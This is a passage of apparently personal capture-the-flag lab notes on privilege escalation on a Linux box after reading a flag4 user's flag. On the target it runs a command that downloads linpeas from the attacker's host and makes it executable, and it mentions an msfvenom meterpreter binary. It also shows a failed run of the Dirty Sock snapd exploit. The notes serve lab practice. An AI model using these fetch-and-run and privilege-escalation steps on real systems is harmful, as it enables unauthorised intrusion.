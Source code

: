 
**Found flag4 user in /etc/passwd:
**
flag4:x:1001:1001:Flag4,,,:/home/flag4:/bin/bash
ls /home/flag4 \-lsaF
total 28
4 drwxr\-xr\-x 2 flag4 flag4 4096 Feb 19  2019 \./
4 drwxr\-xr\-x 3 root  root  4096 Apr 11 03:33 \.\./
4 \-rw\-\-\-\-\-\-\- 1 flag4 flag4   28 Feb 19  2019 \.bash\_history
4 \-rw\-r\-\-r\-\- 1 flag4 flag4  220 Feb 19  2019 \.bash\_logout
4 \-rw\-r\-\-r\-\- 1 flag4 flag4 3392 Feb 19  2019 \.bashrc
4 \-rw\-r\-\-r\-\- 1 flag4 flag4  675 Feb 19  2019 \.profile
4 \-rw\-r\-\-r\-\- 1 flag4 flag4  125 Feb 19  2019 flag4\.txt
cat /home/flag4/flag4\.txt
Can you use this same method to find or access the flag in root?

Probably\. But perhaps it's not that easy\.  Or maybe it is?

Their flag looks like theres a clue, maybe /root has a readable \.txt file, tried catting flag\.txt, flag0\-flag10\.txt , etc\.\.

**Idk, hmm\.  But maybe there is something else easy to get root rq?****Lets run a linpeas\.\.**

**made quick script to update linpeas, **getlinpeas

getlinpeas
lin

\[\.\] Serving :Linux: on python3 \-m http\.server 8001
192\.168\.49\.127
Serving HTTP on 0\.0\.0\.0 port 8001 \([http://0.0.0.0:8001/](#http://0.0.0.0:8001/)
\) \.\.\.

**on remote:
**
wget [http://192.168.49.127:8001/linpeas.sh](#http://192.168.49.127:8001/linpeas.sh)
; chmod \+x linpeas\.sh
linpeas\.sh all \> linpeas\.txt \&

**Tried creating a PG elf meterpreter binary w/ msfvenom and running it, got a weird error\.\.**

**Dirty sock2 was one that looked like it could apply here, verified python exists and tried it manually**:

ls \-l
total 16
\-rw\-r\-\-r\-\- 1 www\-data www\-data 8688 Mar 29 12:32 dirtysock2\.py
\-rwxr\-xr\-x 1 www\-data www\-data  250 Apr 11 05:27 pg4464
python dirtysock2\.py

\_\_\_  \_ \_\_\_\_ \_\_\_ \_   \_     \_\_\_\_ \_\_\_\_ \_\_\_\_ \_  \_ 
|  \\ | |\_\_/  |   \\\_/      \[\_\_  |  | |    |\_/  
|\_\_/ | |  \\  |    |   \_\_\_ \_\_\_\] |\_\_| |\_\_\_ | \\\_ 
\(version 2\)
//=========\[\]==========================================\\\\
|| R\&D     || initstring \(@init\_string\)                ||
|| Source  || [https://github.com/initstring/dirty_sock](#https://github.com/initstring/dirty_sock)
||
|| Details || [https://initblog.com/2019/dirty-sock](#https://initblog.com/2019/dirty-sock)
||
\\\\=========\[\]==========================================//

\[\+\] Slipped dirty sock on random socket file: /tmp/jxmvafmtex;uid=0;
\[\+\] Binding to socket file\.\.\.
\[\+\] Connecting to snapd API\.\.\.
Traceback \(most recent call last\):
File "dirtysock2\.py", line 237, in \<module\>
main\(\)
File "dirtysock2\.py", line 218, in main
client\_sock = bind\_sock\(sockfile\)
File "dirtysock2\.py", line 95, in bind\_sock
client\_sock\.connect\('/run/snapd\.socket'\)
File "/usr/lib/python2\.7/socket\.py", line 224, in meth
return getattr\(self\.\_sock,name\)\(\*args\)
socket\.error: \[Errno 2\] No such file or directory

**Looks like /run/snapd\.socket isn't vuln\.**

**Got my list and went thru it for vulns:
**
\-\-\-\> linpeas
\<\-\-\- did find that there were a couple other open sockets:
